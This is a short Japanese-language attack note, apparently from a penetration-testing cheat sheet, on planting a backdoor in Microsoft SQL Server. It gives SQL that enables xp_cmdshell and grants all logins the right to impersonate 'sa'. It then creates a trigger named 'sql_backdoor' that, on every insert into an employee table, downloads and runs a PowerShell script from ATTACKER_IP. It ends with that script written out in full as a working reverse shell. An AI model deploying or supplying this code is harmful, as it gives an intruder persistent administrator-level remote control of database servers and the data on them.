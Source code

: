 ### MSSQL トリガー

あるテーブルに INSERT したときのトリガーとして Powershell スクリプトを実行する。

Microsoft SQL Server Management Studio 18 の場合、「新しいクエリ」で次の SQL を実行。

xp_cmdshell を有効化。

```sql
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

全てのユーザーに sa ユーザー（デフォルトの DB 管理者）を偽装する権限を付与

```sql
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

HRDB.dbo.Employees テーブルに INSERT されるたびにトリガーさせる。

```sql
USE HRDB
```

```sql
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

evilscript.ps1

```ps
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

